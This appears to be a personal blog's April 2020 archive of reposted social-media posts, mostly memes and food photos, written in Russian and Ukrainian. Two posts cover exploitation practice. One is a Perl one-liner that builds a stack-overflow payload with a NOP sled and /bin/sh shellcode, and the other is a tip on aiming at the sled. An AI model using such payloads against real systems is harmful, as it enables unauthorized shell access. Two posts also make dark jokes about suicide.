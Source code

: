 ```yaml
---
title: 2020-04
date: 2020-04-01 00:06:24
draft: false
---
```


date: 2020-04-29 23:03:29
постинг тупых мемов продолжается
-----
same energy

![](/img/vk/zWt7Hzh4Av4.jpg)
![](/img/vk/Pwk8VASAywo.jpg)

date: 2020-04-29 01:55:30
Стався

![](/img/vk/09R_TcVjrqA.jpg)

date: 2020-04-27 23:15:23
Бігаю коли треба. Коли не треба не бігати.

![](/img/vk/3-WFCe54l0A.jpg)

date: 2020-04-27 19:13:42
Ленивый обзор на Канемана

![](/img/vk/Yc4peXftoTU.jpg)

date: 2020-04-22 17:28:22
У меня разрядилась батарейка на мышке, поэтому я теперь как конч сижу с графпланшетом как мышкой. Принимаю заказы, что нарисовать, цена: 0 долларов по сегодняшнему курсу. Примеры моих работ прикрепляю

![](/img/vk/jDbNyNCbp0Y.jpg)
![](/img/vk/OXtkf5Z3Od8.jpg)

date: 2020-04-20 23:03:04
Админ упарывается диффурами, функаном, вариационным анализом и матфизикой с щепоткой квантовой физики
связаны. связаны

![](/img/vk/YSwCdDIoKyo.jpg)

date: 2020-04-19 10:39:16
![](/img/vk/X1CP8Gz0owk.jpg)
![](/img/vk/CXrUjewnou0.jpg)

date: 2020-04-17 03:08:55
Ежевечный пост о том, что слушать на работе
радио сычхаос
http://radcap.ru/witchhouse.html

date: 2020-04-16 20:01:42
1536. Гренки

![](/img/vk/PL5csSKZADc.jpg)

date: 2020-04-15 22:07:18
Достижение получено: есть собственно приготовленные жареные куски теста со сметаной в течение трех дней и не сдохнуть.👍🏻

![](/img/vk/dVlcLgg18wM.jpg)

date: 2020-04-15 10:40:35
❤👇🏻
![](/img/vk/98nSIHInGdE.jpg)

date: 2020-04-13 21:20:54
![](/img/vk/tenor.gif)

date: 2020-04-10 20:17:24
134468. Панкейки

![](/img/vk/s7WHzQzHMnY.jpg)

date: 2020-04-09 11:45:43
![](/img/vk/n7Zz3lTXQds.jpg)

date: 2020-04-07 00:29:36
(имя и фото изменены на вымышленные)

![](/img/vk/BStubplyAmg.jpg)

date: 2020-04-05 01:48:43
Полезные советы молодым пывнерам #42:

Чтобы вызвать шелкод со стека вне дебагера, можно добавить 100 или более нопов и к адресу возврата, полученному из дебагера прибавить половину длины нопслайда(в нашем случае 50). Работает понятно только с выключенным ASLR & NX, но зато стабильно. Также полезно спать, а не заниматься перебором оффсетов в полпервого ночи.

![](/img/vk/bFWv4ECx90Q.jpg)

date: 2020-04-04 23:58:39
Это я, пытаюсь понять, зачем чел выделяет 0x68=104 байт на стеке, а юзает только 64+4+8=76

![](/img/vk/Xchf-A-ROW8.jpg)

date: 2020-04-04 13:13:04
PEPELEPSY

https://www.youtube.com/watch?v=0RxAa8a8tUE

date: 2020-04-04 09:11:00
![](/img/vk/0psPeWqTFlM.jpg)

date: 2020-04-03 22:58:44
На случай важных переговоров
(perl -e 'print "A" x 76 . pack("I", 0xbffff780) . "\x90" x 60 . "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b"'; echo id)

date: 2020-04-01 12:40:35
Если уж собрался заканчивать жизнь😨, то почему бы ❓не отдать все деньги💰 на благотворительность💌. А раз есть такая возможность, то можно еще и поиграть в игрульки🏆, почему бы нет🤔.
https://www.humblebundle.com/conquer-covid19-bundle

date: 2020-04-01 12:04:07
Жизнь — это боль. Я каждое утро просыпаюсь с болью, хожу на работу с болью! Сказать, сколько раз мне хотелось послать все к черту, свести счеты с жизнью?

![](/img/vk/HaSC0UIR8B4.jpg)

